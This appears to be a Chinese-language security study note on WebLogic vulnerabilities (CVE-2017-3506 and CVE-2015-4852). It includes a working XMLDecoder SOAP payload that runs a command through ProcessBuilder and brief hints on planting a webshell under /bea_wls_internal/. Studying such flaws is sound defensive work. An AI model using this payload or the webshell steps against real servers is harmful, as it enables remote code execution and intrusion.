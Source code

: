 ﻿---
title: WebLogic
categories:
- Network_Security
- Web
- Middleware
- WebLogic
tags:
- Network_Security
date: 2024-01-14 11:44:53
---

# WebLogic 中间件漏洞

## 1. CVE-2017-3506 XMLDecoder 反序列化漏洞（版本：12.1.3.0）

### 1.1 参考文献

1. 主要可以参考下面两篇：

    > https://blog.csdn.net/he_and/article/details/90582262
    >
    > https://zhuanlan.zhihu.com/p/32301092
    >
    > https://www.freebuf.com/articles/web/272835.html

### 1.2 补充

1. 通过 POST 发包，虽然页面会报错，但是结果依旧可以正常执行：
    ![image-20230518143539966](image-20230518143539966.png)

2. 弹出计算机的 PoC：
    ```xml
    <soapenv:Envelope
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
        <soapenv:Header>
            <work:WorkContext
                xmlns:work="http://bea.com/2004/06/soap/workarea/">
                <java>
                    <object class="java.lang.ProcessBuilder">
                        <array class="java.lang.String" length="3">
                            <void index="0">
                                <string>cmd</string>
                            </void>
                            <void index="1">
                                <string>/c</string>
                            </void>
                            <void index="2">
                                <string>calc</string>
                            </void>
                        </array>
                        <void method="start"/>
                    </object>
                </java>
            </work:WorkContext>
        </soapenv:Header>
        <soapenv:Body/>
    </soapenv:Envelope>
    ```

    注意缩进，可以使用 xml 格式工具进行格式规则化。

3. 写马的话，它需要文件路径：
    ![image-20230518145602040](image-20230518145602040.png)
    这个路径不知道怎么获得，如果能获得的话就能写入。写入之后通过访问：
    `/bea_wls_internal/马`即可。

4. 根据不同的版本，它的路径可能不同。如果是 10 版本，可能是 `/wls-wsat/`

## 2. CVE-2017-10271 和 CVE-2019-2725 todo

## 3. CVE-2015-4852 反序列化漏洞

### 3.1 参考

1. 链接如下：

    > https://bleke.top/posts/754158022/

2. 有关 T3 协议的：

    > https://www.cnblogs.com/nice0e3/p/14201884.html

### 3.2 补充

1. 本质上用的就是 CC1 链。应该是通过 t3 协议，将链发送到 7001 端口然后触发链。

